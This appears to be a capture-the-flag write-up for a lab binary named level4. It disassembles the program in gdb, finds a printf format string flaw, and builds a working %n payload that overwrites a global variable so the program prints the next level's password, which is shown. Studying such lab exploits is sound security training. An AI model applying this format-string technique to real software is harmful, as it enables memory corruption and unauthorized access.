 # Search

```
$ ls -l
total 8
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4

$ ./level4 
sdfaS
sdfaS

./level4 
sdfkgjnkdfjgjksdngksdjnksgdnlkgdnskljndfgkjsdffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
sdfkgjnkdfjgjksdngksdjnksgdnlkgdnskljndfgkjsdffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
```

# Analyze with gdb

```
$ gdb level4

(gdb) disas main
   0x080484a7 <+0>:     push   %ebp
   0x080484a8 <+1>:     mov    %esp,%ebp
   0x080484aa <+3>:     and    $0xfffffff0,%esp
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave  
   0x080484b3 <+12>:    ret
 <!-- there is a call to n function -->

(gdb) disas n
   0x08048457 <+0>:     push   %ebp
   0x08048458 <+1>:     mov    %esp,%ebp
   0x0804845a <+3>:     sub    $0x218,%esp
   0x08048460 <+9>:     mov    0x8049804,%eax
   0x08048465 <+14>:    mov    %eax,0x8(%esp)
   0x08048469 <+18>:    movl   $0x200,0x4(%esp)
   0x08048471 <+26>:    lea    -0x208(%ebp),%eax
   0x08048477 <+32>:    mov    %eax,(%esp)
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    0x8049810,%eax
   0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave  
   0x080484a6 <+79>:    ret
   <!-- there is a p function which look like -->

(gdb) disas p
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave  
   0x08048456 <+18>:    ret
```

Main function not very interesting, just call n function\
n fucntion call fgets which is protected against buffer overflow attack\
then call p function which call printf with the return value of previous fgets\
and then compare 0x1025544 (16930116) in dec with global var m\
if the cmp match there is a call to system with argument 0x8048590 -> ("/bin/cat /home/user/level5/.pass")

so we have to use a [Format String Attack](https://owasp.org/www-community/attacks/Format_string_attack) to modify m

# how to modify the value of m

### find address of m with gdb
```
(gdb) p &m
$2 = (<data variable, no debug info> *) 0x8049810
```
### using string exploit to modify value of with %n

```
$ python -c "print('aaaa' + ' %x'*13)"| ./level4
aaaa b7ff26b0 bffff724 b7fd0ff4 0 0 bffff6e8 804848d bffff4e0 200 b7fd1ac0 b7ff37d0 61616161 20782520
```

```a = (hex)61``` in the ASCII hexa table so the buffer is at the 12th position

### Payload

we know the address of our global var m and the position of our buffer on the stack\
using %d modifier we can dinamically specify the field width ```%16930116d```
so :

```
$ python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/exploit

$ cat /tmp/exploit | ./level4
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```